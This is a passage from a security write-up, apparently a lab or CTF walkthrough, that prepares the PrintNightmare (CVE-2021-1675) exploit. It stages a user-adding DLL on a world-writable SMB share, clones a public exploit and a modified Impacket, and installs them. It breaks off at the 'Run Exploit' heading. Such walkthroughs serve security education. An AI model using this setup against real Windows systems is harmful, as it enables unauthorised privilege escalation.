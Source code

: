     
    
    oxdf@parrot$ sudo chown -R nobody:root smb/
    oxdf@parrot$ sudo chmod -R 777 smb/
    oxdf@parrot$ ls -l smb/
    total 12
    -rwxrwxrwx 1 nobody root 10240 Jul  7 22:10 AddUserDll.dll
    

#### Impacket

I’ll clone the repo and rename it:

    
    
    oxdf@parrot$ cd /opt/
    oxdf@parrot$ git clone https://github.com/cube0x0/CVE-2021-1675
    Cloning into 'CVE-2021-1675'...
    remote: Enumerating objects: 159, done.
    remote: Counting objects: 100% (159/159), done.
    remote: Compressing objects: 100% (98/98), done.
    remote: Total 159 (delta 55), reused 124 (delta 32), pack-reused 0
    Receiving objects: 100% (159/159), 1.45 MiB | 7.37 MiB/s, done.
    Resolving deltas: 100% (55/55), done.
    oxdf@parrot$ mv CVE-2021-1675 SharpPrintNightmare
    oxdf@parrot$ cd SharpPrintNightmare/
    

This exploit uses a modified version of
[Impacket](https://github.com/cube0x0/impacket). I’ll clone that into this
directory:

    
    
    oxdf@parrot$ git clone https://github.com/cube0x0/impacket
    Cloning into 'impacket'...
    remote: Enumerating objects: 19570, done.
    remote: Counting objects: 100% (645/645), done.
    remote: Compressing objects: 100% (304/304), done.
    remote: Total 19570 (delta 386), reused 531 (delta 339), pack-reused 18925
    Receiving objects: 100% (19570/19570), 6.82 MiB | 9.18 MiB/s, done.
    Resolving deltas: 100% (14798/14798), done.
    

To avoid messing up my system install, I’ll create a virtual environment,
activate it, and install Impacket in there:

    
    
    oxdf@parrot$ python3 -m venv venv
    oxdf@parrot$ source venv/bin/activate
    (venv) oxdf@parrot$ cd impacket/
    (venv) oxdf@parrot$ python3 setup.py install
    running install
    running bdist_egg
    running egg_info 
    ...[snip]...
    

#### Run Exploit
